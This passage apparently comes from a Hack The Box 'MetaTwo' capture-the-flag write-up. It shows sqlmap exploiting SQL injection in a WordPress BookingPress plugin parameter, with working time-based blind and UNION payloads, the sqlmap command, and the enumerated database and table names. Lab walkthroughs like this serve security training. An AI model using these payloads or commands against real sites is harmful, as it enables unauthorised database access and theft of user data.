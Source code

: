 		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[11:55:39] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[11:55:39] [INFO] fetching database names
		available databases [2]:
		[*] blog
		[*] information_schema
		```
		> Databases
		> - `blog`
		> - `information_schema`
		{: prompt-info}
	2. Enumerate tables in `blog` database
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# sqlmap -r booking.req -p total_service --batch -D blog --tables
		---
		Parameter: total_service (POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[12:01:23] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[12:01:23] [INFO] fetching tables for database: 'blog'
		Database: blog
		[27 tables]
		+--------------------------------------+
		| wp_bookingpress_appointment_bookings |
		| wp_bookingpress_categories           |
		| wp_bookingpress_customers            |
		| wp_bookingpress_customers_meta       |
		| wp_bookingpress_customize_settings   |
		| wp_bookingpress_debug_payment_log    |
		| wp_bookingpress_default_daysoff      |
		| wp_bookingpress_default_workhours    |
		| wp_bookingpress_entries              |
		| wp_bookingpress_form_fields          |